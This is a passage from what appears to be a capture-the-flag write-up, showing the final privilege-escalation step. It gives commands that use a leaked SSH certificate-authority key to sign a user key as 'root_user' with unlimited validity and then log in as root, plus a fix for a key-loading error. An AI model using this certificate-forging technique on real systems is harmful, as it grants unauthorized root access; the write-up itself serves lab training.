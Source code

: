 <figure><img src="../../../.gitbook/assets/exploit.png" alt=""><figcaption></figcaption></figure>

Then following this:&#x20;

```bash
chmod 600 ca-it
ssh-keygen -s ca-it -z 1234 -I root -V -100w:forever -n root_user rootkey.pub
ssh -o CertificateFile=rootkey-cert.pub -i rootkey root@localhost -p 2222
```

{% hint style="info" %}
If you have an error:

```
Load key "ca-it": error in libcrypt
```

-> Try to edit the ca-it file correct order of a key file
{% endhint %}

And then we got <mark style="color:red;">**`root`**</mark>:

<figure><img src="../../../.gitbook/assets/root-flag.png" alt=""><figcaption></figcaption></figure>

